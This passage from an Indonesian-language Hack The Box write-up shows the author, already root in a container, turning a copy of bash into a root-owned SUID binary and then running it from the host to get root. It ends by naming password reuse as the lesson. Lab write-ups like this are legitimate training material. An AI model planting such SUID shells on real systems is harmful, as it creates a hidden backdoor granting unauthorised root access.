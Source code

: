 Dari container 172.19.0.2 kita jadikan file bash tadi menjadi suid binary.

```
root@3a453ab39d3d:/backend# cd /home/augustus
cd /home/augustus
root@3a453ab39d3d:/home/augustus# ls
ls
bash  user.txt
root@3a453ab39d3d:/home/augustus# chown root: bash
chown root: bash
root@3a453ab39d3d:/home/augustus# chmod u+sx bash
chmod u+sx bash
root@3a453ab39d3d:/home/augustus# ls -lha
ls -lha
total 1.2M
drwxr-xr-x 2 1000 1000 4.0K Oct 17 00:29 .
drwxr-xr-x 1 root root 4.0K Nov  5  2021 ..
lrwxrwxrwx 1 root root    9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000 3.5K Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000  807 Oct 19  2021 .profile
-rwsr-xr-x 1 root root 1.2M Oct 17 00:29 bash
-rw-r----- 1 1000 1000   33 Oct 16 04:33 user.txt
```

Dari mesin host, tinggal kita panggil file suid tadi.

<figure><img src="../../.gitbook/assets/root captured.png" alt=""><figcaption></figcaption></figure>

Ini merupakan salahsatu mesin dengan kategori easy di HTB yang dapat digunakan untuk mengasah kemampuan basic kita dalam eksploitasi. Salahsatu hal yang bisa kita pelajari dari mesin ini adalah **password reuse attack**.

